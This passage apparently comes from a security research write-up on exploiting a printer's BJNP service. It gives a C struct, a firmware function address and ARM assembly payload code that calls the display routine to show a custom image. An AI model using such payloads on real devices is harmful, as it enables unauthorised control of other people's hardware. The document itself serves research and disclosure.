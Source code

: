 # Payload

We can now build upon this PoC to create a meaningful payload. As we want to display a custom image on screen, we need to:

- Find a way of uploading the image data (as we're limited to `0x180` bytes in total in the BJNP session buffer),
- Make sure the screen is turned on (for example, by disabling the energy save mode as above),
- Call the display function with our image data to show it on screen.

## Displaying an image

As the firmware contains a number of debug functions, we were able to understand the display mechanism rather quickly. There is  a function able to write an image into the frame buffer (located at `0x41305158` in our firmware) which takes two arguments: the address of an RGB image, and the address of a frame buffer structure which looks like below:

```C
struct frame_buffer_struct {
    unsigned short x;
    unsigned short y;
    unsigned short width;
    unsigned short height;
};
```

The frame buffer can only be used to display `320x240` pixels at a time which isn't enough to cover the whole screen as it is 800x480 pixels. We push this structure on the stack with the following code:

```asm
sub sp, #8
mov r0, #320
strh r0, [sp, #4]  ; width
mov r0, #240
strh r0, [sp, #6]  ; height
mov r0, #0
strh r0, [sp]      ; x
strh r0, [sp, #2]  ; y
```

Once this is done, assuming `r5` contains the address of our image buffer, we display it on screen with the following code:

```asm
; Display frame buffer
mov r1, r5         ; Image buffer
mov r0, sp         ; Frame buffer struct
mov r12, #0x5158
movt r12, #0x4130
blx r12
```

This leaves the question of the image buffer itself.
